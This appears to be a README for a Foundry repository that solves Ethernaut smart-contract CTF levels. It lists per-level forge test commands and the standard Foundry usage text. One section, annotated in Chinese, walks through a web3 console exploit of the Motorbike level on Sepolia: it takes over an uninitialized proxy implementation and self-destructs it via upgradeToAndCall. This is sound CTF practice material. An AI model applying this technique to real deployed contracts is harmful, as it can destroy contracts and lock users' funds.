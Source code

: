 ```shell
forge test --match-path ./test/Fallback.t.sol
forge test --match-path ./test/Fallout.t.sol
forge test --match-path ./test/CoinFlip.t.sol
forge test --match-path ./test/Telephone.t.sol
forge test --match-path ./test/Token.t.sol
forge test --match-path ./test/Delegation.t.sol
forge test --match-path ./test/Force.t.sol
forge test --match-path ./test/Vault.t.sol
forge test --match-path ./test/King.t.sol
forge test --match-path ./test/Reentrancy.t.sol
forge test --match-path ./test/Elevator.t.sol
forge test --match-path ./test/Privacy.t.sol
forge test --match-path ./test/GatekeeperOne.t.sol
forge test --match-path ./test/GatekeeperTwo.t.sol
forge test --match-path ./test/NaughtCoin.t.sol
forge test --match-path ./test/Preservation.t.sol
forge test --match-path ./test/Recovery.t.sol
forge test --match-path ./test/MagicNumber.t.sol
forge test --match-path ./test/AlienCodex.t.sol
forge test --match-path ./test/Denial.t.sol
forge test --match-path ./test/Shop.t.sol
forge test --match-path ./test/Dex.t.sol
forge test --match-path ./test/DexTwo.t.sol
forge test --match-path ./test/PuzzleWallet.t.sol
forge test --match-path ./test/Motorbike.t.sol

forge script script/MotorbikeDeploy.s.sol --rpc-url $RPC_URL_LOCAL --broadcast
forge script script/MotorbikeInteract.s.sol --rpc-url $RPC_URL_LOCAL --broadcast

forge install OpenZeppelin/openzeppelin-contracts@v3.4.2 --no-commit (solidity 0.6)
forge install OpenZeppelin/openzeppelin-contracts@v4.8.2 --no-commit (solidity 0.6)
```

Motorbike web 实现(sepolia 网络)

```
获取当前逻辑合约的地址
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")

0x000000000000000000000000e414f6cb24cf364877fa306b3e488f3204650721
返回的值将为 32 个字节，其中最右边的 20 个字节将是地址。梳理一下，并在其左侧附加 0x。
我们得到 0xe414f6cb24cf364877fa306b3e488f3204650721

let initializeCall = web3.eth.abi.encodeFunctionSignature("initialize()")
let implAddr = "0xe414f6cb24cf364877fa306b3e488f3204650721"
await web3.eth.sendTransaction({from: player, to: implAddr, data: initializeCall})

remix 部署 Destructive
0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168

let kill = web3.eth.abi.encodeFunctionSignature("killed()")
let callStr = web3.eth.abi.encodeFunctionCall({ name: 'upgradeToAndCall', type: 'function', inputs: [{ type: 'address', name: 'newImplementation' },{ type: 'bytes', name: 'data' }]}, ["0x788d8efa489aD7f32cA96e2B8e4d4d2aBac0B168",kill]);

await web3.eth.sendTransaction({from: player, to: implAddr, data: callStr})
```

## Foundry

**Foundry is a blazing fast, portable and modular toolkit for Ethereum application development written in Rust.**

Foundry consists of:

-   **Forge**: Ethereum testing framework (like Truffle, Hardhat and DappTools).
-   **Cast**: Swiss army knife for interacting with EVM smart contracts, sending transactions and getting chain data.
-   **Anvil**: Local Ethereum node, akin to Ganache, Hardhat Network.
-   **Chisel**: Fast, utilitarian, and verbose solidity REPL.

## Documentation

https://book.getfoundry.sh/

## Usage

### Build

```shell
$ forge build
```

### Test

```shell
$ forge test
```

### Format

```shell
$ forge fmt
```

### Gas Snapshots

```shell
$ forge snapshot
```

### Anvil

```shell
$ anvil
```

### Deploy

```shell
$ forge script script/Counter.s.sol:CounterScript --rpc-url <your_rpc_url> --private-key <your_private_key>
```

### Cast

```shell
$ cast <subcommand>
```

### Help

```shell
$ forge --help
$ anvil --help
$ cast --help
```
